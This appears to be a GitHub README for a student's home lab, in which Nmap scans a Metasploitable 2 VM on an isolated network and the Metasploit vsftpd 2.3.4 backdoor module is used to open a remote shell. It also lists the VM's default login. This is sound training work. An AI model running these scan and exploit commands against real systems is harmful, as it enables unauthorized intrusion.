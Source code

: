 # cybersecurity-lab-nmap-metasploit
Hands-on cybersecurity lab using Kali Linux and Metasploitable to scan and exploit vulnerabilities with Nmap and Metasploit.

# 🔐 Cybersecurity Home Lab: Nmap Scan & Exploitation

## 🧰 Tools Used
- VirtualBox
- Kali Linux (Attacker VM)
- Metasploitable 2 (Vulnerable Target VM)
- Nmap (Port scanning & service enumeration)
- Metasploit Framework (Exploitation)

---

## 🛠️ Lab Setup

This lab was built using VirtualBox to simulate a safe, isolated network environment for practicing offensive security techniques.

### 🔧 Network Configuration
Both Kali Linux and Metasploitable 2 are configured to use a **Host-Only Adapter** to ensure full isolation from the internet.

### 🔐 Metasploitable Login

Username: msfadmin
Password: msfadmin

After identifying the IP of the Metasploitable VM using ifconfig, I performed a vulnerability scan using Nmap:

nmap -sS -sV -O 192.168.56.101

✅ Flag Breakdown:
	•	-sS : TCP SYN scan (stealthy and fast)
	•	-sV : Detects service versions
	•	-O  : Tries to determine the operating system

🧾 Sample Output:
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1
23/tcp   open  telnet      Linux telnetd
80/tcp   open  http        Apache httpd 2.2.8
...

💥 Step 2: Exploitation with Metasploit

Identified a vulnerable FTP service running vsftpd 2.3.4. Used Metasploit to exploit it and gain shell access:

msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.101
exploit

✅ Result: Opened a remote shell session with the target.

🧠 What I Learned
	•	How to configure and isolate VMs in a virtual network
	•	How to scan and enumerate services using Nmap
	•	How to identify vulnerabilities based on service versions
	•	Basic exploitation using the Metasploit Framework
	•	The importance of safe, offline testing environments

🚀 Future Improvements
	•	Add Wireshark for packet sniffing and traffic analysis
	•	Expand lab with Security Onion or Splunk for detection & logging
	•	Build custom scripts to automate scanning/reporting

🔗 Connect with Me

👨‍💻 Robert Tolbert
🎯 Passionate about cybersecurity, software engineering, and aviation!

